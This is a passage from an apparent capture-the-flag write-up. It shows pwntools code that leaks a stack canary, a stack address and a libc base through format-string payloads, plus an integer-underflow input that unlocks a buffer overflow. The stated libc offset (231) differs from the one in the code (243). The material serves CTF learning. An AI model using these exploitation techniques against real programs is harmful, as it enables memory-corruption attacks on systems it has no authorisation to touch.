 ```python
    __libc_start_main_offset = 243
```    

Standard pwntools header, however note that the libc I used locally vs. the challenge provided libc have different `__libc_start_main` leak offsets.  `231` is the correct value for Ubuntu 18.04 libc (run `strings`, get the version, Google it, ...).  

> I know this number from experience, most of the CTF challenges in the last 12 months have used either Ubuntu 18 or 20.  That said, you could have got this from doing this in an Ubuntu 18.04 Docker container.

```python
# get canary @11
p.sendlineafter('> ','1')
p.sendlineafter('> ','%11$p')
p.recvuntil('is: ')
canary = int(p.recvuntil('\x1b[1;').strip(b'\x1b[1;').decode(),16)
log.info('canary: ' + hex(canary))

# get stack leak: @10
p.sendlineafter('> ','1')
p.sendlineafter('> ','%10$p')
p.recvuntil('is: ')
stack = int(p.recvuntil('\x1b[1;').strip(b'\x1b[1;').decode(),16)
target = stack - 0x50
log.info('target: ' + hex(target))

# get libc @21
p.sendlineafter('> ','1')
p.sendlineafter('> ','%21$p')
p.recvuntil('is: ')
__libc_start_main = int(p.recvuntil('\x1b[1;').strip(b'\x1b[1;').decode(),16) - __libc_start_main_offset
log.info('__libc_start_main: ' + hex(__libc_start_main))
libc.address = __libc_start_main - libc.sym.__libc_start_main
log.info('libc.address: ' + hex(libc.address))
```

Select `fight` from the menu and leak the canary, stack, and libc, and compute the base of libc.

The `target` (address of `local_38`) is computed using the delta above (see Analysis section).

You cannot get to the BOF in `stare` unless you enter with `0x15` (21) pies; `stare` will increment this to `0x16` and unlock the BOF, but first you need 21 pies:

```
[1] Fight 👊	[2] Inventory 🎒
[3] Stare 👀	[4] Run 🏃
> 2

You have: 10 🥧

Do you want to drop some? (y/n)
> y

How many do you want to drop?
> -11

You have: 21 🥧
```

